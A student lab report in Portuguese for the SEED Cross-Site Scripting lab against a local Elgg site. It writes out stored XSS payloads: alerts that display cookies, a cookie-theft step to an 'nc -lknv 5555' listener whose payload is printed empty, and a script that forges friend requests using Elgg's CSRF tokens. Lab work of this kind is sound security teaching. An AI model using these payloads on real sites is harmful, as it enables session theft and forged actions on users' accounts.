








# Trabalho realizado na semana 10

## **Cross-Site Scripting (XSS) Attack Lab (Tarefas obrigatórias)**

### **Preparação**

- Fomos bem sucedidos em abrir a extensão do firefox "HTTP Header Live", como é observável no screenshot seguinte:



### **Tarefa 1**

- Editamos a *brief-description* do perfil "Samy" para conter o código ``<script>alert('XSS- Hello World!')</script>``

- Primeiro verificámos que para o próprio user que é dono do perfil, o alert() definido também é ativado, sendo a mensagem visível.

- Depois, fazendo logout desse perfil, quando iniciamos sessão com outro user, p.e. a "Alice" e acedemos ao perfil "Samy" aparece um alerta na janela, como pode ser comprovado pelo seguinte screenshot.



### **Tarefa 2**

- Alterámos outra vez o conteúdo da *brief-description* para, desta vez, conter ``<script>alert('XSS' + "\n"+ document.cookie)</script>``.

- O que verificamos foi que tanto para o user dono do perfil que o vê, como para outros utilizadores que visitam o perfil com código malicioso, aparece um alerta com o seguinte formato (XSS - [cookies do utilizador]), como é observável na imagem seguinte:



- Verificámos que a apresentação dos cookies funciona até para o perfil do admin (acessível com a password: ``seedadmin``)

### **Tarefa 3**

- Modificámos mais uma vez a *brief-description* do perfil "Samy", para conter, ``<script>document.write(’’);</script>``.

- Com isto verificámos que não aparece qualquer alert no ecrã, quanto um outro *user* acede ao perfil malicioso, mas na consola aberta pelo atacante, que está à escuta (através da execução do comando ``nc -lknv 5555``) e nas Web Developer Tools do Browser, é reconhecido um pedido GET para uma imagem, que contém o cookie do utilizador autenticado no momento, como é visível nas imagens seguintes.





### **Tarefa 4**

- Primeiro analisámos como é o pedido HTTP enviado para o servidor quando um *user* adiciona outro como *friend*, no exemplo abaixo, "Alice" adiciona "Boby" como amigo.



- Podemos observar que são enviados vários argumentos (`elgg_ts` e `elgg_token`- cada um duas vezes, na seguinte ordem - `ts + token + ts + token`) para que esse processo seja realizado da forma correta.

- Com isto é nos possível elaborar o script que possa ser ativado aquando da abertura do perfil "Samy", que vai causar a adição do "Samy" como amigo ao *user* que está a visualizar o perfil "Samy".

- Abaixo incluímos o script de código, que realiza esta ação, que escrevemos no *"About Me"* do perfil do Samy.

```
<script type="text/javascript">
window.onload = function () {
	var Ajax=null;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
	var token="&__elgg_token="+elgg.security.token.__elgg_token; 
	
	//Construct the HTTP request to add Samy as a friend.
	var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token; 
	
	//Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
}
</script>

```

- Em relação ao script fornecido, apenas foi necessário criar o url necessário para o ***HTTP GET request***, com as variáveis ts e token e com o valor do *id* (presumimos nós) do "Samy", que conseguimos obter através da análise de um pedido de amizade realizado pela "Alice", que depois removemos.



- Após aceder ao perfil do "Samy" com a conta da "Alice", ou mesmo do "Admin", por exemplo, podemos verificar que é adicionado o "Samy" à lista de *friends* da pessoa que visitou esse perfil.



#### **Tarefa 4 -  Perguntas a responder**

• **Question 1**: Explain the purpose of Lines ➀ and ➁, why are they are needed?

- **Linha ➀ - *var ts*** - Pensamos que é utilizada para obter o valor de elgg_ts, necessário para realizar o pedido "GET" que adiciona um *friend* novo.

- **Linha ➁ - *var token*** - Assumimos que é utilizada para, de maneira semelhate à anterior, obter o valor de elgg_token, também necessária para o pedido a realizar. 

• **Question 2**: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

- Não seria possível realizar tão facilmente o ataque, visto que o código script escrito seria interpretado apenas como texto e não como código passível de ser executado.